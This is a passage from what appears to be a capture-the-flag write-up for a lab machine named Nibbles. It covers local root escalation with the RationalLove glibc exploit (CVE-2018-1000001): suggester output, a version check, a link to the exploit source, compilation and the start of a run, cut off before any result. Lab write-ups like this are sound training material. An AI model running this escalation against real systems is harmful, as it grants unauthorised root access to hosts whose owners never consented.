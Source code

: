 ### RationalLove exploitation 

Through `linux exploit suggester` we got `rationallove` exploit and we confirmed the ldd version

```shell
[+] [CVE-2018-1000001] RationalLove

   Details: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/
   Exposure: less probable
   Tags: debian=9{libc6:2.24-11+deb9u1},ubuntu=16.04.3{libc6:2.23-0ubuntu9}
   Download URL: https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c
   Comments: kernel.unprivileged_userns_clone=1 required
```

```shell
nibbler@Nibbles:/tmp$ ldd --version
ldd (Ubuntu GLIBC 2.23-0ubuntu9) 2.23
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

[Exploit](https://github.com/5H311-1NJ3C706/local-root-exploits/blob/master/linux/CVE-2018-1000001/RationalLove.c)

```shell
nibbler@Nibbles:/tmp$ gcc -o RationalLove RationalLove.c
RationalLove.c: In function ‘createStackWriteFormatString’:
RationalLove.c:549:19: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
   int writeCount=((int)mainFunctionReturnAddress-18)&0xffff;
                   ^
RationalLove.c:559:16: warning: cast from pointer to integer of different size [-Wpointer-to-int-cast]
   writeCount=(((int)argvStackAddress)-(writeCount+56))&0xffff;
                ^
RationalLove.c: In function ‘attemptEscalation’:
RationalLove.c:734:50: warning: format ‘%lx’ expects argument of type ‘long unsigned int *’, but argument 3 has type ‘int *’ [-Wformat=]
             result=sscanf(readBuffer+moveLength, "%016lx",
                                                  ^
nibbler@Nibbles:/tmp$ ls -al
total 220
drwxrwxrwt  9 root    root     4096 Sep 17 09:36 .
drwxr-xr-x 23 root    root     4096 Dec 15  2020 ..
prw-r--r--  1 nibbler nibbler     0 Sep 17 09:14 f
drwxrwxrwt  2 root    root     4096 Sep 16 13:51 .font-unix
drwxrwxrwt  2 root    root     4096 Sep 16 13:51 .ICE-unix
-rw-rw-r--  1 nibbler nibbler 89641 Sep 17  2022 les.sh
-rwxrwxr-x  1 nibbler nibbler 24292 Sep 17  2022 linux-exploit-suggester-2.pl
-rwxrwxr-x  1 nibbler nibbler 33696 Sep 17 09:36 RationalLove
-rw-rw-r--  1 nibbler nibbler 35470 Sep 17  2022 RationalLove.c
drwx------  3 root    root     4096 Sep 16 13:51 systemd-private-6c3e59668cd542dea7f0da39aef5b4c1-systemd-timesyncd.service-1O6Imi
drwxrwxrwt  2 root    root     4096 Sep 16 13:51 .Test-unix
drwx------  2 root    root     4096 Sep 16 13:52 vmware-root
drwxrwxrwt  2 root    root     4096 Sep 16 13:51 .X11-unix
drwxrwxrwt  2 root    root     4096 Sep 16 13:51 .XIM-unix
nibbler@Nibbles:/tmp$ ./RationalLove
./RationalLove: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./RationalLove: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 23898
```